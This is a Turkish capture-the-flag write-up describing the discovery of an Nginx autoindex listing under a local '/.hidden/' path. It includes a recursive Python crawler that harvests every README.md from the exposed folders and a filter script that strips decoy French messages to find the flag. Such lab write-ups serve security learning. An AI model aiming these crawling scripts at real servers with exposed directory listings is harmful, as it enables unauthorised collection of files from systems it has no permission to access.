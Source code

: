 # README.md

## Proje Açıklaması

Daha önceden `.hidden` adlı bir alanı görmüştüm ve bunu keşfetmeye karar verdim. `localhost:8080/.hidden/` adresine gittiğimde, Nginx tarafından `auto_index` sayfasının ayarlandığını fark ettim. Bu, klasörlere erişebildiğim anlamına geliyordu ve bu büyük bir güvenlik açığıydı. Bütün klasörler içerisinde özgürce dolaşabiliyordum.

## Çözüm

Görevi benim için biraz zorlaştırmışlardı; her bir klasöre tıklayarak `README.md` dosyalarından flag'i bulmak yerine, bir Python kodu yazmaya karar verdim. Bu kod, bütün `README.md` dosyalarını klasörlere girerek toplayıp `output.txt` dosyasına yazacak şekilde ayarlandı.

## Kod

Kodun tamamını [main.py](#file:main.py-context) dosyasında bulabilirsiniz.

```python
import requests
from bs4 import BeautifulSoup
import time

def scrape_readme_files(url, output_file):
    response = requests.get(url)
    soup = BeautifulSoup(response.text, 'html.parser')
    
    # Open the output file in append mode
    with open(output_file, 'a') as outfile:
        for link in soup.find_all('a'):
            href = link.get('href')
            # Skip parent directory link
            if href == "../":
                continue
            # Construct the URL for the subdirectory or file
            full_url = url + href
            if href.endswith('/'):
                # Recursively scrape subdirectories
                scrape_readme_files(full_url, output_file)
            elif href == "README.md":
                # Fetch and write the content of README.md to the output file
                readme_response = requests.get(full_url)
                if readme_response.status_code == 200:
                    outfile.write(f"Contents of {full_url}:\n")
                    outfile.write(readme_response.text)
                    outfile.write("\n\n")
            time.sleep(1)

base_url = "http://localhost:8080/.hidden/"
output_file = "output.txt"

# Clear the output file before starting
open(output_file, 'w').close()

# Start scraping
scrape_readme_files(base_url, output_file)
```

## Sonuç

Bu kod sayesinde, `README.md` dosyalarını otomatik olarak toplayarak `output.txt` dosyasına yazdım bunlar arasında bir kaç inceleme yaptıktan sonra sabit sürekli bazı mesajlar var bunlar arasında da filtreleme yaptığım bir kod yazarsam sonuca ulaşacaktım o da şu kod oldu:

```python
def filter_output_file(input_file, output_file, keywords):
    with open(input_file, 'r') as infile, open(output_file, 'w') as outfile:
        write_line = False
        for line in infile:
            if any(keyword in line for keyword in keywords):
                write_line = False
            elif line.startswith("Contents of"):
                write_line = True
                outfile.write(line)
            elif write_line:
                outfile.write(line)

input_file = "output.txt"
output_file = "filtered_output.txt"
keywords = ["Demande", "Tu veux", "Toujours", "Non ce"]

filter_output_file(input_file, output_file, keywords)
```

ve sonuç olarak `filtered_output.txt` içerisinde flag değerine ulaştık.

